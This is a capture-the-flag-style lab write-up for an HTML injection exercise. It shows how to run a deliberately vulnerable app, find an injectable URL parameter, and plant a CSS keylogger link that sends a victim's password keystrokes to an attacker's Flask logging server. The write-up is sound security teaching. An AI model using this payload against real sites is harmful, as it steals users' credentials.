 # KBID xxx - HTML Injection

## Running the app

```
$ sudo docker pull blabla1337/html-injection
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/html-injection
```

{% hint style="success" %}

{% endhint %}

Now that the app is running let's go hacking!

## Running the app Python3

First, make sure python3 and pip are installed on your host machine. After installation, we go to the folder of the lab we want to practise "i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

![Docker image and write-up thanks to Contrast Security](../../.gitbook/assets/contrast-security-logo.jpg)

## Reconnaissance

HTML injection is a vulnerability that allows an attacker to inject HTML code into a web application.

In this lab, when we go to the user panel by clicking the link on the home page. We can see that name of the user is displayed in the URL. This is a good sign that we can inject some HTML code into the URL and see the result.

If we change the URL like so `/user-panel/?name=<br>User</br>` we can see that the text is bold and in the developer tools it shows the HTML that we injected.

![Changed URL](../../.gitbook/assets/html-injection-changed-url.png)

That means that we can indeed inject HTML. An attacker can edit the URL and send it to the victim.

## Exploitation

Now that we know that we can inject HTML code in the URL, we can try to inject a css keylogger to see if we can get the password of the user.

To do that we need to start a web server on our host machine. We can use python to do that.

```python
#!/usr/bin/env python3

from flask import Flask, render_template, json

app = Flask(__name__, static_url_path='/static', static_folder='static')
app.config['DEBUG'] = True


@app.route("/logger/<log>")
def logger(log):
    print("--------------------")
    print(log)
    print("--------------------")
    return json.dumps({'success': True}), 200, {'ContentType': 'application/json'}


@app.errorhandler(404)
def page_not_found(e):
    return render_template("404.html")


if __name__ == '__main__':
    app.run(debug=True, host='0.0.0.0', port=5555)
```

Now that we have our web server running, we can inject the css keylogger in the URL like so: `/user-panel/?name=User<link rel="stylesheet" href="http://localhost:5555/static/css/keylogger.css" />`

Now when the user goes to the user panel, the keylogger will be injected and will send the keystrokes to our web server.

![Server output](../../.gitbook/assets/html-injection-server.png)

> Note: This is a limited keylogger for a more complete keylogger you will have to generate a CSS with more character combinations.

## Additional sources

[owasp.org | Testing for HTML Injection](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/11-Client-side_Testing/03-Testing_for_HTML_Injection)

